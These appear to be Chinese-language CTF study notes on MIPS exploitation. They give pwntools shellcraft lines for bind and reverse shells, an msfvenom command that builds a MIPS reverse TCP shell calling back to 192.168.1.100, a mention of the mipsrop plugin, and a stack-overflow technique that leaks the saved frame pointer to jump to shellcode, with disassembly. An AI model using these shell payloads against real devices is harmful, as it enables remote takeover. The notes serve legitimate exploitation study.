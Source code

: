 正向监听本地端口和反向连接目标端口：

shellcraft.mips.linux.bindsh(9999)shellcraft.mips.linux.connect('192.168.1.100',9999)+shellcraft.mips.linux.dupsh()

*来自 \<<https://xuanxuanblingbling.github.io/ctf/pwn/2020/09/24/mips/>\>*
## msfvenom
msfvenom -p linux/mipsle/shell_reverse_tcp LHOST=192.168.1.100 LPORT=8888 --arch mipsle --platform linux -f py -o shellcode.py
## 编写

# rop
## mipsrop
[解决IDA 无法安装mipsrop插件 - 简书 (jianshu.com)](https://www.jianshu.com/p/0f5923fac8d4)

[ida/plugins at master · tacnetsol/ida (github.com)](https://github.com/tacnetsol/ida/tree/master/plugins)

mipsrop.help()
## 泄露栈帧里的fp，在栈上布置shellcode并跳转
通过栈帧可以看出，fp被保存在栈中，这个fp是父函数的fp，因为mips中fp=sp，

所以如果能泄露这个fp，即可构造这样的栈溢出

padding ... fake_fp fake_ra=fp ^ shellcode

fp

.text:00400A2C 03 C0 E8 25 move \$sp, \$fp

.text:00400A30 8F BF 00 7C lw \$ra, 0x58+var_s24(\$sp)

.text:00400A34 8F BE 00 78 lw \$fp, 0x58+var_s20(\$sp)

.text:00400A38 8F B7 00 74 lw \$s7, 0x58+var_s1C(\$sp)

.text:00400A3C 8F B6 00 70 lw \$s6, 0x58+var_s18(\$sp)

.text:00400A40 8F B5 00 6C lw \$s5, 0x58+var_s14(\$sp)

.text:00400A44 8F B4 00 68 lw \$s4, 0x58+var_s10(\$sp)

.text:00400A48 8F B3 00 64 lw \$s3, 0x58+var_sC(\$sp)

.text:00400A4C 8F B2 00 60 lw \$s2, 0x58+var_s8(\$sp)

.text:00400A50 8F B1 00 5C lw \$s1, 0x58+var_s4(\$sp)

.text:00400A54 8F B0 00 58 lw \$s0, 0x58+var_s0(\$sp)

.text:00400A58 27 BD 00 80 addiu \$sp, 0x80

.text:00400A5C 03 E0 00 08 jr \$ra

.text:00400A60 00 00 00 00 nop
